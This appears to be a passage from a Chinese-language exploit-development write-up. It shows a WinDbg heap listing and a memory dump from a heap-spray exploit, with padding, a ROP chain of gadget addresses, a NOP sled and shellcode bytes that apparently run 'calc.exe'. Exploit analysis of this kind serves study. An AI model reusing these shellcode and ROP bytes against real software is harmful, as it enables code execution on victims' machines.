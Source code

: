 ```
    _HEAP @ 24a0000
    _HEAP @ 2cc0000

```

重点关注0x7950018这一块，可以看到从0x7950024开始是0x1c字节的padding，然后就是shellcode，也就是说0x79500040是一个可用的gadget地址。

```
0:005> dd 07950018 L 100
07950018  2498ef9a 04000000 000fffda 41414141
07950028  42424242 43434343 41414141 42424242
07950038  43434343 41414141 6b661041 6b662c60
07950048  6b67b43b 6b662c60 6b662c60 6b663059
07950058  00001024 6b6fced0 00000040 6b662fa9
07950068  6bb9fe20 6b6630ae 6b661041 6b662f0b
07950078  6b66f920 6b674ef7 6b661348 6b6cf0bb
07950088  6b6994a1 6b6c3d7e 90909090 90909090
07950098  90909090 0089e8fc 89600000 64d231e5
079500a8  8b30528b 528b0c52 28728b14 264ab70f
079500b8  c031ff31 7c613cac c1202c02 c7010dcf
079500c8  5752f0e2 8b10528b d0013c42 8578408b
079500d8  014a74c0 488b50d0 20588b18 3ce3d301
079500e8  8b348b49 ff31d601 c1acc031 c7010dcf
079500f8  f475e038 3bf87d03 e275247d 24588b58
07950108  8b66d301 588b4b0c 8bd3011c d0018b04
07950118  24244489 59615b5b e0ff515a 8b5a5f58
07950128  5d86eb12 858d016a 000000b9 8b316850
07950138  d5ff876f a2b5f0bb 95a66856 d5ff9dbd
07950148  0a7c063c 75e0fb80 1347bb05 006a6f72
07950158  63d5ff53 2e636c61 00657865 90909090
07950168  90909090 90909090 90909090 90909090
07950178  90909090 90909090 90909090 90909090
07950188  90909090 90909090 90909090 90909090
07950198  90909090 90909090 90909090 90909090
079501a8  90909090 90909090 90909090 90909090
079501b8  90909090 90909090 90909090 90909090
079501c8  90909090 90909090 90909090 90909090
079501d8  90909090 90909090 90909090 90909090
079501e8  90909090 90909090 90909090 90909090
079501f8  90909090 90909090 90909090 90909090
07950208  90909090 90909090 90909090 90909090
07950218  90909090 90909090 90909090 90909090
07950228  90909090 90909090 90909090 90909090
07950238  90909090 90909090 90909090 90909090
07950248  90909090 90909090 90909090 90909090
07950258  90909090 90909090 90909090 90909090
07950268  90909090 90909090 90909090 90909090
07950278  90909090 90909090 90909090 90909090
07950288  90909090 90909090 90909090 90909090

```
